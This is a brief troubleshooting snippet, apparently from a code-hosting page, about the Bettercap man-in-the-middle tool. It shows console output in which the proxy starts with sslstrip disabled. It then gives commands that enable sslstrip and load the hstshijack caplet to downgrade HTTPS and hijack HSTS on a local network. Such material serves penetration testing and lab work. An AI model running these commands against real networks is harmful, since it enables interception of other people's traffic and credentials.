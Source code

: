 # Bettercap starts with SSL strip disabled

```shell
@kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack

------------------------------------

[sudo] password for <user>: 
bettercap v2.32.0 (built for linux amd64 with go1.15.15) [type 'help' for a list of commands]

2022-01-23 14:36:56 inf hstshijack Generating random variable names for this session ...
...
[snip]
...
[14:36:56] [sys.log] [inf] http.proxy enabling forwarding.
[14:36:56] [sys.log] [inf] http.proxy started on 192.168.122.108:8080 (sslstrip disabled)
...
```

Disabled. Solution: First start Bettercap, then set proxy with sslstrip and then hstshijack:

```shell
@kali:~$ sudo bettercap -iface eth0

...

192.168.122.0/24 > 192.168.122.108  » set http.proxy.sslstrip true
192.168.122.0/24 > 192.168.122.108  » hstshijack/hstshijack
```
